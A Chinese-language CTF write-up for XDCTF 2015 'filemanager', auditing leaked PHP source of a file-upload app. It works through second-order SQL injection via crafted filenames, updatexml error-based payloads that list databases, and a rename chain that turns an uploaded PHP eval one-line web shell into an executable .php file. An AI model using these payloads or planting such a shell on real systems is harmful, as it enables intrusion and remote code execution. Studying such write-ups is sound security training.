

# \[XDCTF 2015]filemanager

## \[XDCTF 2015]filemanager

## 考点

* 代码审计
* 二次注入

## wp

三个功能，文件上传、删除文件和重命名文件

直接点删除文件发现报了SQL的错，有可能是文件名处的注入

.png>)

目录扫描发现`www.tar.gz`源码泄露

在`common.inc.php`进行一些初始赋值，连接`xdctf`数据库，并把传入的数据进行`addslashes`转义，然后定义上传路径为`./upload`，最后定义`redirect()`函数


```php
<?php
$DATABASE = array(

	"host" => "127.0.0.1",
	"username" => "root",
	"password" => "ayshbdfuybwayfgby",
	"dbname" => "xdctf",
);
$db = new mysqli($DATABASE['host'], $DATABASE['username'], $DATABASE['password'], $DATABASE['dbname']);
$req = array();
foreach (array($_GET, $_POST, $_COOKIE) as $global_var) {
	foreach ($global_var as $key => $value) {
		is_string($value) && $req[$key] = addslashes($value);
	}}
define("UPLOAD_DIR", "upload/");
function redirect($location) {
	header("Location: {$location}");
	exit;}
```


在`upload.php`中，获取上传文件。先用`basename()`获取带有拓展名的文件名，再用`pathinfo()`获取文件名中的`dirname，basename，extension，filename`数组，赋值为`$path_parts`。然后要后缀名在`["gif", "jpg", "png", "zip", "txt"]`中，之后对文件名进行重新拼接，再用`addslashes()`对`$path_parts["filename"]`进行转义。根据`$path_parts['filename']`和`$path_parts['extension']`查询文件是否已经存在。然后把`$path_parts['filename']`和`$path_parts['extension']`插入`xdctf`数据库的`file`表。


```php
<?php
require_once "common.inc.php";
if ($_FILES) {
	$file = $_FILES["upfile"];
	if ($file["error"] == UPLOAD_ERR_OK) {
		$name = basename($file["name"]);
		$path_parts = pathinfo($name);
		if (!in_array($path_parts["extension"], array("gif", "jpg", "png", "zip", "txt"))) {
			exit("error extension");
		}
		$path_parts["extension"] = "." . $path_parts["extension"];
		$name = $path_parts["filename"] . $path_parts["extension"];
		$path_parts['filename'] = addslashes($path_parts['filename']);
		$sql = "select * from `file` where `filename`='{$path_parts['filename']}' and `extension`='{$path_parts['extension']}'";
		$fetch = $db->query($sql);
		if ($fetch->num_rows > 0) { exit("file is exists"); }
		if (move_uploaded_file($file["tmp_name"], UPLOAD_DIR . $name)) {
			$sql = "insert into `file` ( `filename`, `view`, `extension`) values( '{$path_parts['filename']}', 0, '{$path_parts['extension']}')";
			$re = $db->query($sql);
			if (!$re) { print_r($db->error);exit; }
			$url = "/" . UPLOAD_DIR . $name;
			echo "Your file is upload, url:
                	<a href=\"{$url}\" target='_blank'>{$url}</a><br/>
               		<a href=\"/\">go back</a>";
		} else { exit("upload error"); }
	} else { print_r(error_get_last());exit;}
}
```


在delete.php中首先查询`filename`是否存在，然后使用`delete`语句删除数据库记录，最后使用`unlink()`函数删除文件。


```php
<?php
require_once "common.inc.php";
if(isset($req['filename'])) {
    $result = $db->query("select * from `file` where `filename`='{$req['filename']}'");
    if ($result->num_rows>0){
        $result = $result->fetch_assoc();
    }
    $filename = UPLOAD_DIR . $result["filename"] . $result["extension"];
    if ($result && file_exists($filename)) {
        $db->query('delete from `file` where `fid`=' . $result["fid"]);
        unlink($filename);
        redirect("/");
    }
}
?>
```


在`rename.php`中首先查询`old_name`是否存在，然后使用`update`语句更新数据库，如果更新错误会回显，最后使用`rename()`函数重命名。


```php
<?php
require_once "common.inc.php";
if (isset($req['oldname']) && isset($req['newname'])) {
	$result = $db->query("select * from `file` where `filename`='{$req['oldname']}'");
	if ($result->num_rows > 0) {
		$result = $result->fetch_assoc();
	} else { exit("old file doesn't exists!"); }
	if ($result) {
		$req['newname'] = basename($req['newname']);
		$re = $db->query("update `file` set `filename`='{$req['newname']}', `oldname`='{$result['filename']}' where `fid`={$result['fid']}");
		if (!$re) { print_r($db->error);exit; }
		$oldname = UPLOAD_DIR . $result["filename"] . $result["extension"];
		$newname = UPLOAD_DIR . $req["newname"] . $result["extension"];
		if (file_exists($oldname)) { rename($oldname, $newname); }
		$url = "/" . $newname;
		echo "Your file is rename, url:
                <a href=\"{$url}\" target='_blank'>{$url}</a><br/>
                <a href=\"/\">go back</a>";
	}
}
?>
```


上传文件名`aaa'.txt`，执行的语句是``insert into `file` ( `filename`, `view`, `extension`) values( 'aaa\'', 0, 'txt')``

在`rename`处查询文件是否存在，执行的是``select * from `file` where `filename`='aaa\''``

更新文件名处执行的语句是``update `file` set `filename`='bbbb', `oldname`='aaaa'' where `fid`=5``，所以这里的报错是``near ''aaaa'' where `fid`=5' at line 1``

.png>)

## 验证存在注入

首先根据前面的报错，判断当前文件的fid是6，再上传一个文件dddd.txt，它的fid就是7，再上传文件名`dddd' where fid=7#`

然后rename处的oldname输入`dddd'%20where%20fid=7#`，newname输入ddddx

那么`rename`SQL语句先执行`select * from file where filename='dddd\' where fid=7#'`

这个文件是存在的，再update执行语句`update file set filename='ddddx', oldname='`<mark style="color:red;">`dddd' where fid=7#`</mark>`' where fid=8`

这就利用第8次上传把dddd的文件名给修改为ddddx了

注入步骤

1. 上传`f.txt`文件，假设fid为15
2. 上传`f' where fid=9 and updatexml(1,concat(0x3a,(select(group_concat(schema_name))from(information_schema.schemata))),1)#.txt`文件
3. rename处oldname输入`f'%20where%20fid=9%20and%20updatexml(1,concat(0x3a,(select(group_concat(schema_name))from(information_schema.schemata))),1)#`，newname随便输，得到所有数据库，`information_schema,mysql,perfor`，再逆序一下就可以得到所有数据库，`information_schema,mysql,performance_schema,test,xdctf`

### 做法

不是注入，那就是改后缀名了getshell。

需要执行rename('upload/shell.txt', 'upload/shell.php')，也就是要让这两句分别返回upload/shell.txt和upload/shell.php

```
$oldname = UPLOAD_DIR . $result["filename"] . $result["extension"];
$newname = UPLOAD_DIR . $req["newname"] . $result["extension"];
```

那么需要数据库中的extension为空，filename为shell.txt

那么需要执行的语句就是`update file set filename='shell.php', oldname='`<mark style="color:red;">`shell.txt',extension='' where fid=1#`</mark>`' where fid=1`

1. 先上传`shell.txt`，fid为1，内容为一句话`<?php eval($_POST[a]);?>`
2. 上传`shell.txt',extension='' where fid=1#.txt`
3. 重命名`shell.txt',extension=''%20where%20fid=1#`为`shell.php`
4. 再重命名shell.php为shell.php.txt
5. 再重命名shell.php.txt为shell.php



.png>)

一开始上传shell.txt数据库如下

<table><thead><tr><th data-type="number">fid</th><th align="center">filename</th><th align="center">oldname</th><th align="center">view</th><th align="center">extension</th></tr></thead><tbody><tr><td>1</td><td align="center">shell</td><td align="center"></td><td align="center">0</td><td align="center">.txt</td></tr></tbody></table>

再上传`shell.txt',extension='' where fid=1#.txt`数据库如下


<table><thead><tr><th data-type="number">fid</th><th align="center">filename</th><th align="center">oldname</th><th align="center">view</th><th align="center">extension</th></tr></thead><tbody><tr><td>1</td><td align="center">shell</td><td align="center"></td><td align="center">0</td><td align="center">.txt</td></tr><tr><td>2</td><td align="center">shell.txt',extension='' where fid=1#</td><td align="center"></td><td align="center"></td><td align="center">.txt</td></tr></tbody></table>

此时upload目录下只有两个文件，`shell.txt`和`shell.txt',extension='' where fid=1#.txt`

重命名`shell.txt',extension=''%20where%20fid=1#`为`shell.php`

首先select获取的oldname数据也就是`shell.txt',extension=''%20where%20fid=1#`的后缀为`.txt`

然后执行update，`update file set filename='shell.php', oldname='shell.txt',extension='' where fid=1#' where fid=2`

再进行rename，把`shell.txt',extension=''%20where%20fid=1#.txt`重命名为`newname+extension`，也就是`shell.php.txt`，现在upload目录有两个文件，`shell.php.txt`和`shell.txt`

<table><thead><tr><th data-type="number">fid</th><th align="center">filename</th><th align="center">oldname</th><th align="center">view</th><th align="center">extension</th></tr></thead><tbody><tr><td>1</td><td align="center">shell.php</td><td align="center">shell.txt</td><td align="center">0</td><td align="center"></td></tr><tr><td>2</td><td align="center">shell.txt',extension='' where fid=1#</td><td align="center"></td><td align="center">0</td><td align="center">.txt</td></tr></tbody></table>

再进行重命名，oldname=shell.php\&newname=shell.php.txt，这样upload目录还是有两个文件，`shell.php.txt`和`shell.txt`


<table><thead><tr><th data-type="number">fid</th><th align="center">filename</th><th align="center">oldname</th><th align="center">view</th><th align="center">extension</th></tr></thead><tbody><tr><td>1</td><td align="center">shell.php.txt</td><td align="center">shell.php</td><td align="center">0</td><td align="center"></td></tr><tr><td>2</td><td align="center">shell.txt',extension='' where fid=1#</td><td align="center"></td><td align="center">0</td><td align="center">.txt</td></tr></tbody></table>

然后再进行重命名，oldname=shell.php.txt\&newname=shell.php，在执行rename函数就可以把shell.php.txt变成shell.php了

 (1) (1).png>)

